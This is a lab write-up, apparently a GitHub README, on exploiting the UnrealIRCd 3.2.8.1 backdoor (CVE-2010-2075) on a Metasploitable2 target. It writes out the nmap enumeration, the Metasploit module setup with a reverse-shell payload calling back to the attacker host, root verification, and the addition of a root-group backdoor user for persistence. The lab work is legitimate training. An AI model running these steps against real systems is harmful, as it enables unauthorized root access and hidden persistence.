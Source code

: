 # Exploiting UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

UnrealIRCd 3.2.8.1 is a widely used IRC daemon that was discovered to have a backdoor vulnerability allowing remote attackers to execute arbitrary commands without authentication. This backdoor was introduced maliciously into the source code, affecting many deployments globally.

In this lab, we will exploit the UnrealIRCd backdoor on the Metasploitable2 target machine to gain unauthorized remote shell access. Successfully exploiting this vulnerability demonstrates the risks of using compromised or outdated software and the importance of patch management.

We will begin by verifying the service and version with Nmap, then use Metasploit’s `unreal_ircd_3281_backdoor` module to obtain a root shell, and finally confirm our access by interacting with the target system.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the UnrealIRCd service on the target machine to verify it is vulnerable. Port 6667 is the default IRC port where UnrealIRCd typically runs.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 6667 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `6667` was open on `192.168.100.10`. Crucially, the service running on this port was identified as **UnrealIRCd 3.2.8.1**, which is the specific vulnerable version targeted by this exploit.
    ![Nmap Scan Result](images/Scan.png) 

### 2.2: Metasploit Exploit Search

* **Objective:** Launch Metasploit and search for available exploits related to UnrealIRCd.

* **Commands Executed:**
    ```bash
    msfconsole
    search unrealircd
    ```

* **Results:**
    The search returned the module `exploit/unix/irc/unreal_ircd_3281_backdoor`, which directly targets a backdoor vulnerability in UnrealIRCd versions 3.2.8.1. This exploit allows remote code execution by connecting to the IRC service and sending a specially crafted payload.
    ![Metasploit Search Result](images/Search.png)

### 2.3: Configure and Execute the Exploit

* **Objective:** Configure the exploit module to target `192.168.100.10` and set up a reverse shell payload to gain access to the system.

* **Commands Executed:**
    ```bash
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set PAYLOAD cmd/unix/reverse
    set RHOSTS 192.168.100.10
    set LHOST 192.168.100.5
    set LPORT 4444
    run
    ```

* **Results:**
    The exploit successfully initiated a reverse TCP handler on `192.168.100.5:4444`, and a command shell session was opened (`192.168.100.5:4444 -> 192.168.100.10:xxxxx`). This confirms successful remote code execution.
    ![Exploit Run Result](images/Exploit.png) 

### 2.4: Verify Shell Access and Privileges

* **Objective:** Confirm successful remote shell access and identify the privilege level obtained.

* **Commands Executed (in the newly obtained shell):**
    ```bash
    whoami
    id
    ```

* **Results:**
    The `whoami` command returned `root`, and the `id` command confirmed `uid=0(root) gid=0(root)`. This verified that root-level access was successfully achieved on the Metasploitable2 system.
    ![Root Access Proof](images/whoami.png) 

### 2.5: Establish Persistence by Adding a Backdoor User

* **Objective:** Create a new user account with root privileges on Metasploitable2, allowing for future authenticated access even if the initial exploit vector is mitigated.

* **Commands Executed (in the root shell):**
    ```bash
    useradd -m -g root -s /bin/bash bdnoah
    echo "bdnoah:bdpass" | chpasswd
    ```

* **Verify the user creation and privileges:**
    ```bash
    cat /etc/passwd | grep bdnoah
    ```

* **Results:**
    The `useradd` command successfully created the `bdnoah` user with its home directory and assigned it to the `root` group. The `chpasswd` command set its password. Verification via `cat /etc/passwd` confirmed the user `bdnoah` with `GID=0` (root privileges).
    ![New User Creation](images/newuser.png)

## 3. Conclusion

This exercise successfully demonstrated the exploitation of the UnrealIRCd 3.2.8.1 backdoor (CVE-2010-2075) on the Metasploitable2 target system. A remote command shell with root-level privileges was obtained. This root-level access was leveraged to establish persistence by creating a new user account with root privileges.

This lab highlights the critical importance of timely patch management and the severe risks associated with running outdated or compromised software. Unpatched vulnerabilities, even in seemingly obscure services like IRC daemons, can provide attackers with full administrative control over a system, leading to significant security breaches.